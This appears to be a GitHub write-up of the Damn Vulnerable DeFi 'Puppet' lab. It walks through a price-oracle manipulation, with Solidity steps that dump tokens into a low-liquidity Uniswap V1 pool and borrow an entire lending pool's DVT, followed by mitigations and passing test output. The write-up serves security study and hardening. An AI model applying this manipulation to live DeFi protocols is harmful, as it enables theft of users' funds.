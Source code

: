 # Puppet Challenge Solution

A security study and step-by-step exploit of the “Puppet” price-oracle vulnerability in Damn Vulnerable DeFi v4.  
Demonstrates how on-chain spot pricing without time-weighting can be manipulated in a single transaction to drain a lending pool.


## Background

This challenge features a lending pool requiring 2× ETH collateral per DVT borrowed.  
The pool uses a Uniswap V1 exchange as its price oracle, pulling the current spot price from the pool’s 10 ETH / 10 DVT liquidity.  
An attacker starting with 25 ETH and 1 000 DVT can crash the price and borrow the entire 100 000 DVT in one transaction.

---

## Challenge Setup

- **Lending Pool**:  
  - Holds 100 000 DVT  
  - Collateral formula: `2 × amount × spotPrice`  

- **Uniswap V1 Pool**:  
  - 10 ETH and 10 DVT  
  - Spot price = `getTokenToEthInputPrice`  

- **Attacker Wallet**:  
  - 25 ETH  
  - 1 000 DVT  

---

## Exploit Walkthrough

1. **Approve DVT**  
   The attacker approves the Uniswap V1 exchange to pull all 1 000 DVT.

2. **Dump DVT → ETH**  
   ```solidity
   uint256 tokens = token.balanceOf(player);
   token.approve(address(dex), tokens);
   dex.tokenToEthSwapInput(tokens, 1, block.timestamp);


This sale skews the pool ratio and crashes the spot price.

3. **Calculate Collateral**
```solidity
uint256 poolTokens = token.balanceOf(address(pool));
uint256 requiredEth = pool.calculateDepositRequired(poolTokens);
```
Collateral requirement becomes negligible.

4. **Borrow All DVT**
```solidity
pool.borrow{value: requiredEth}(poolTokens, recovery);
```
The entire 100 000 DVT is transferred to the recovery address, the attack is successful.

## Mitigation Strategies

- **Time-Weighted Average Price (TWAP)**
  - Integrate Uniswap V2/V3 TWAP over a 30-minute window.
  - In practice, dumping 1 000 DVT into a 10 ETH/10 DVT pool moves spot price by ≈ 90 %, but a 30-minute TWAP only shifts by ≈ 3 %.
  - Implementable via on-chain contracts or Chainlink TWAP adapters.

- **Multi-Source Price Aggregation**
  - Combine spot prices from multiple DEXs (Uniswap, SushiSwap) and a centralized oracle (Chainlink).
  - Use a medianizer contract to reject outliers, forcing an attacker to manipulate ≥ 3 venues simultaneously.

- **Borrow Caps & Rate Limits**
  - Enforce a per-transaction cap (e.g., max 1 000 DVT/tx) and a per-block cap (e.g., max 5 000 DVT/block).
  - In this setup, a 1 000 DVT cap would block a full drain, buying time for manual intervention and alerting.

- **Circuit Breakers on Volatility**
  - Pause borrowing when price moves exceed a 10 % threshold within a 1-minute interval.
  - Integrate on-chain monitoring to automatically halt lending if abrupt swings occur.

All these recommendations are practical to implement in existing DeFi protocols and critically reduce the attack surface for flash-loan and price-manipulation attacks.

## Conclusion

Working through the Puppet challenge reinforced a simple truth: any on-chain oracle that relies solely on spot rates and low liquidity can be weaponized. By building and running this exploit myself, I gained hands-on insight into:

- Crafting single-transaction attacks against spot-based oracles
- The importance of smoothing and multi-source aggregation in price feeds
- Designing operational guardrails (caps, circuit breakers) that balance security with liquidity

This case study serves as both a cautionary tale and a blueprint for hardening production DeFi systems against flash manipulation risks.

## Test (CLI Output)

```bash
[⠒] Compiling...
[⠰] Compiling 1 files with Solc 0.8.25
[⠔] Solc 0.8.25 finished in 1.26s
Compiler run successful!

Ran 2 tests for test/puppet/Puppet.t.sol:PuppetChallenge
[PASS] test_assertInitialState() (gas: 49224)
[PASS] test_puppet() (gas: 159910)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 2.95ms (375.20µs CPU time)

Ran 1 test suite in 16.13ms (2.95ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)







